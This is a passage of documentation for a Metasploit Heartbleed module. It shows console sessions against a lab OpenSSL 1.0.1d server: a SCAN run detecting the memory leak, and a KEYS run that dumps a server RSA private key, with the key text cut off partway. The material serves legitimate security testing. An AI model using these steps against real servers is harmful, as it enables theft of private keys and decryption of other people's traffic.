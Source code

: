   If `jabber` is selected for `TLS_CALLBACK`, the domain to use.  Default is `localhost`.

## Scenarios

### SCAN against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

With the default action of `SCAN` we can determine if the server is vulnerable or not.

```
msf > use auxiliary/scanner/ssl/openssl_heartbleed 
msf auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf auxiliary(scanner/ssl/openssl_heartbleed) > set rport 44330
rport => 44330
msf auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### KEYS against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

In order to help elicit the keys, we can run the following code to help populate memory with
the keys:

```
watch 'cat openssl-1.0.1d/key.pem; cat openssl-1.0.1d/cert.pem'
```

```
msf auxiliary(scanner/ssl/openssl_heartbleed) > set action KEYS
action => KEYS
msf auxiliary(scanner/ssl/openssl_heartbleed) > run

[*] 222.222.2.222:44330   - Scanning for private keys
[*] 222.222.2.222:44330   - Getting public key constants...
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Starting.
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Attempt 0...
[+] 222.222.2.222:44330   - 2019-10-13 01:32:18 UTC - Got the private key
[*] 222.222.2.222:44330   - -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7ax3L0LRt5uZQTFOiJkX2xRn9ww/G87gMkMBAdeEzph7a2/i
C4stnajh9NsUbACv+dt8mtwgh0Vg4lMaI5iB9lXlqfsR17vIsW+/AZXj3Eo+B0QU
l8MpVilDvm3Hee0tE9NGLMR+Vk1Eq0UL+w7Gc/IswkFtj8XGMQ3Jc6OaJ6Ofh5hF
VlmyQBrtwvZ/20g5KtMbZFv1XX28bjEd47qfTo8nrnCsrjD7h7R42GrRw9hhvWse
sEa9VyTwQF0W8mxTYFx/7evXeJNVw1drmhJrxpGfb9gl8qzQgf6PQoi1LXaPAdk5
1cshKeGXmcA+1FR5HOdvWEqzCjMxApzdExNSgwIDAQABAoIBACmdYAT7ayL98JiU
nI6YV6/5Y7bDAy3ITEMgrkV3Sf6ufjWykl65ENShJGcuEOZUPHvALZIj5uIoiK04
JcSDyIWsRpk7p8UhUSOYUFZju1DwAupcxkpIVq2Kbh0itaGooJLvFEN0aDaOMu7W
GSHtVVwp1CJzOE7LL0eZhWNlCvHTgwwobaAUYEyrDmkOdWskMC3RGu5JrrfKTK+5
VUwMMAJ7Wf+d+xeTrNHwGGdEvHd23p1B1E3+axG0XqxI7wODz14iAWgd1zp2gSq2
Ji/II0E8Okwl3AR0d8SD0cJeEPHWlrr/6LzBUTHanDBGe2SXP/SMFSvyEpoPw/s8
vovI1okCgYEA8Ju7TuE4V2UQjZi8qcNAFnbxfcS9bk8S+BBKkgKtMY6wZT8h03fP
ouYot1IaRxMVlErrUeVtD/YKD+nhNFFYZGCSChjAhvf1rq/wzRILWpdGZ3SF9UuR
NlNpH1DcVZPOdTxCJ8DfjY72m/ugYysorQdmo9L58BhMKbfp9aHOR0cCgYEA/OCs
73xWEECKS7of0B+3CKriYT7fROu5wP9gFl3/FR8q7275TG2Iwg0rDz4NLGJhcVQ8
4bNAz+OglxqXkIVOf5Cuj8DibAw2JTr+MP5wQUaB0fPdwPcNw/fBq68x/+UpdcM2
B98b2uykN3Q2Zd2g3VVrKUOb4yJlE1EEvVrt8OUCgYEAq6oQe3jIn+Hla4D7qgs6
IE0AgwDpPliAaigFbCMoumDZjYL7eUrUA58+kXysbuU40jKZrjaIF4ktKKlvGcqn
zAXya+24/xLOYLH6lfU30Ix5mLpUEOy3UBE2wTcJ3Ky18oLpmD9NwEutuyBOEDLs
tHbBTkTqOdi8Dk+/RpcI+2UCgYEAj5qDeqiwMyCDqMd0w3sPNTPdxP2wSvJWlVww
0+LjNbpyZnAt0JIvZIuX1VsWngrsbTA6Nq3V83i/vK+UPLUHQ/gEuYv+yP8STIg4
y9fiJZ+Fn5YOa0OhJJVw/S9LhJc9uSt3Znbz2ZojE37CWYzHiom0hkVnpE/m+FY9
C880amUCgYAw8b+F3iBCEzioeUWW62c89yQaV0Ci/BQgvkhLsRRZr5hlt8+NWjSv
```